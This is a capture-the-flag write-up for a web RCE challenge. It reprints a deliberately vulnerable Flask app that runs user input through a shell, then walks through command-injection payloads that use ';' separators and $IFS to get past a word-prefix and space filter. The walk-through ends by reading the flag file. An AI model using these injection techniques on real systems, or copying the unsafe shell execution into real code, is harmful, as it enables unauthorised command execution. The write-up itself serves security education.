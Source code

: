 ## Introduction

![](images/image.png)

As the name in the website suggests, This is an RCE challenge, and we have to somehow execute some Linux commands in a way that we can get the flag. 
We have an input field where we can enter some commands, and we have a button to execute them. with a Feminist theme. And most importantly, a link to the source code.

## Analysis

The source code is pretty straightforward, a small backend in Flask:

```python

from flask import Flask, render_template, request, send_file
from subprocess import PIPE, Popen

# create a flask app
app = Flask(__name__)

# this function executes the command. if there is an output, it returns it. otherwise, it returns the error.
def exec(q):
    p = Popen(q, shell=True, stdout=PIPE, stderr=PIPE)
    stdout, stderr = p.communicate()
    if stdout:
        return stdout.decode()
    return stderr.decode()

# this is the index page that we have visited
@app.get("/")
def index():
    return render_template('index.html', output="")

# this is a POST Endpoint that will execute once we click the button
@app.post("/")
def query():
    # our query
    q = request.form['q'] 
    # split the query and add "she" to each word
    q = ["she" + word for word in q.split(' ')] 
    # join the words again, but with no space
    q = ''.join(q)
    # execute the command
    result = exec(q)
    # return the result
    return render_template('index.html', output=result)

# this is the endpoint that returns the source code
@app.get("/code")
def code():
    return send_file(__file__)

```

So simply, if we send the command `ls`,  it will execute `shels` and throws and error.
and if we send the command `cat flag.txt`, it will execute `shecatsheflag.txt` which doesn't make sense to linux as well.
So we have a couple of things to be bypass in this task. First the `she` addition to the beginning, second the space issue.

## Exploitation

### 1. The `she` addition

The first thing to think of in term of linux commands, is the seperators `&&`, `||`, `;`
Which are used to execute multiple commands in one line. So we can bypass the `she` addition by using `||` or `;` to seperate the commands, because `||` will execute if the first command fails, and `;` will execute the second command no matter what. and we should not seperate the commands with space between them.

After we bypassed the `she` addition, we can use the `ls` command to see the files in the directory.

```sh
;ls
# feminist.py requirements.txt run.sh shefiles templates
```

We can see few files out there, with an untypical name `shefiles`. So we can try to read the content of this file.
Yet we have the Space Issue yet to solve..

### 2. The Space Issue

If you can't use a space, you can use something that represents a space. And the first one that comes to mind is `$IFS`, the Internal Field Seperator in Linux. It is used to seperate the fields in a line, and by default its value is a space. So we can use it to seperate the commands.

One thing to note, is that the commands with $IFS will fail, because since there's no spaces, anything after `$IFS` will be appended to the command, resulting to a variable name called `$IFSshefiles` for example, so we have to seperate the variable name from whats next, a way to do so is by using `*`.

```sh
;cat$IFS*shefiles # or cat$IFS* files, since it adds the she to the beginning
# /bin/sh: 1: she: not found cat: shefiles: Is a directory
```

So we can see that the `shefiles` is a directory, and we can try to list its content.

```sh
;ls$IFS*shefiles
# flag.txt
```

So, Let's try to read the flag.

```sh
;cat$IFS*shefiles/flag.txt
# ENIT{th3_best_g0_gir1_moM3nt_1_sAw_waS_in_tHe_boys}
```

## Conclusion
The Challenge is pretty simple and Linux commands are your best friend in this task. I hope you enjoyed reading this writeup, and I hope you learned something new.


## Flag
> ENIT{th3_best_g0_gir1_moM3nt_1_sAw_waS_in_tHe_boys}

I Recommand watching the show. It is top notch.

![](images/feminist.jpeg)


## Other Writeups
- [unintended](unintended.md)